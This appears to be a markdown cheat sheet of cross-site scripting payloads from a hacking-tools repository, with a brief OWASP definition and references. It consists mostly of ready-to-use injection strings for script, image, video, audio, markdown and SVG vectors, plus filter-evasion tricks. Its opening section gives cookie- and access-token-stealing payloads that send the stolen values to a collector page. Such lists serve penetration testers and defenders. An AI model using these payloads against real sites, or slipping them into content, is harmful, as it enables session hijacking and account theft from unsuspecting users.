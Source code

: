 # XSS

> Cross-Site Scripting \(XSS\) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
>
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.
>
> 📖 More information: [https://owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)

## Data grabber for XSS

> Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```javascript
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

```javascript
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
```

```javascript
<script>new Image().src='http://localhost/cookie.php?c='+document.cookie;</script>
```

```javascript
<script>new Image().src='http://localhost/cookie.php?c='+localStorage.getItem('access_token');</script>
```

## XSS in HTML/Applications

### Basic Payload

```javascript
<script>alert('XSS')</script>
```

```javascript
<scr<script>ipt>alert('XSS')</scr<script>ipt>
```

```javascript
"><script>alert("XSS")</script>
```

```javascript
"><script>alert(String.fromCharCode(88,83,83))</script>
```

### Img tag payload

```html
<img src=x onerror=alert('XSS');>
```

```html
<img src=x onerror=alert('XSS')//
```

```html
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
```

```html
<img src=x:alert(alt) onerror=eval(src) alt=xss>
```

```html
"><img src=x onerror=alert("XSS");>
```

```html
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>
```

### Video tag payload

```html
<video autoplay onloadstart="alert('XSS')" src=x></video>
```

```html
<video autoplay controls onplay="alert('XSS')"><source src="x"></video>
```

```html
<video controls onloadeddata="alert('XSS')"><source src="x"></video>
```

```html
<video controls onloadedmetadata="alert('XSS')"><source src="x"></video>
```

```html
<video controls onloadstart="alert('XSS')"><source src="x"></video>
```

```html
<video controls oncanplay="alert('XSS')"><source src="x"></video>
```

### Audio tag payload

```html
<audio autoplay controls onplay="alert('XSS')"><source src="x"></audio>
```

```html
<audio autoplay controls onplaying="alert('XSS')"><source src="x"></audio>
```

## XSS in Markdown

```md
[a](javascript:prompt(document.cookie))
```

```md
[a](j a v a s c r i p t:prompt(document.cookie))
```

```md
[a](data:md/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)
```

```md
[a](javascript:window.onerror=alert;throw%201)
```

## XSS in SVG \(short\)

```html
<svg xmlns='http://www.w3.org/2000/svg' onload='alert(document.domain)'/>
```

```html
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
```

```html
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
```

```html
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

## Bypass word blacklist with code evaluation

```javascript
eval('ale'+'rt(0)');
```

```javascript
Function('ale'+'rt(1)')();
```

```javascript
new Function`alert`6``;
```

```javascript
setTimeout('ale'+'rt(2)');
```

```javascript
setInterval('ale'+'rt(10)');
```

```javascript
Set.constructor('ale'+'rt(13)')();
```

```javascript
Set.constructor`alert(14)```;
```

## 📚 References

* [owasp.org/www-community/attacks/xss/](https://owasp.org/www-community/attacks/xss/)
* [github.com/LasCC/Hack-Tools](https://github.com/LasCC/Hack-Tools)
* [netsec.expert/posts/xss-in-2021/](https://netsec.expert/posts/xss-in-2021/)
* [portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [owasp.org/www-community/xss-filter-evasion-cheatsheet](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)
* [en.wikipedia.org/wiki/Cross-site\_scripting](https://en.wikipedia.org/wiki/Cross-site_scripting)

